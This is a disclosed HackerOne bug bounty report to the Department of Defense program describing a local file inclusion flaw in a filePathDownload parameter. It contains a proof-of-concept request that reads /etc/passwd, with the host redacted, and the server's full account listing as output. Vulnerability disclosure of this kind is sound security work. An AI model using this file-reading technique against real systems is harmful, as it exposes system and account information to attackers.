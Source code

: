 # lfi in filePathDownload parameter via ███████

## Report Details
- **Report ID**: 1542734
- **URL**: https://hackerone.com/reports/1542734
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-16T17:14:07.440Z
- **Disclosed**: 2022-04-29T14:04:23.455Z

## Reporter
- **Username**: exploitmsf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
hi i found critcal lfi vulnerability 
poc: https://█████████/████████=/etc/passwd
response: 
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
chrony:x:998:995::/var/lib/chrony:/sbin/nologin
ec2-user:x:1000:1000:Cloud User:/home/ec2-user:/bin/bash
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
sssd:x:995:993:User for sssd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sustainment:x:1001:1001::/home/sustainment:/bin/bash
emerg:x:1002:1002:Sustainment Linux Emergency Acct:/home/emerg:/bin/bash
cwagent:x:993:992::/home/cwagent:/bin/bash
ssm-user:x:1003:1004::/home/ssm-user:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
drupal:x:1004:1005::/home/drupal:/bin/bash
splunk:x:1005:1006:Splunk Server:/opt/splunkforwarder:/bin/bash
mfe:x:992:1007::/home/mfe:/sbin/nologin
```

## Impact

attacker can read any file in system

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
all poc in Description

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
